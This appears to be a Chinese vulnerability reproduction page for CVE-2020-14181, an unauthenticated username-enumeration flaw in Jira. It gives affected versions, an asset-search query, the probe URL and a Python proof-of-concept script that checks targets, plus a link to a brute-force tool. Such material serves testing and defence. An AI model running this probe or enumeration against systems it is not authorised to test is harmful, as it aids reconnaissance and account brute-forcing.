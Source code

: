 # Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

```
Atlassian Jira < 7.13.6
Atlassian Jira 8.0.0 - 8.5.7
Atlassian Jira 8.6.0 - 8.12.0
```

## 网络测绘

```
app="Jira"
```

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](images/202202102001825.png)



使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回

![](images/202202102001855.png)

存在的用户名会返回

![](images/202202102001022.png)

不存在漏洞会返回

![](images/202202102001222.png)

## 漏洞POC

POC只用于探测是否存在漏洞

爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

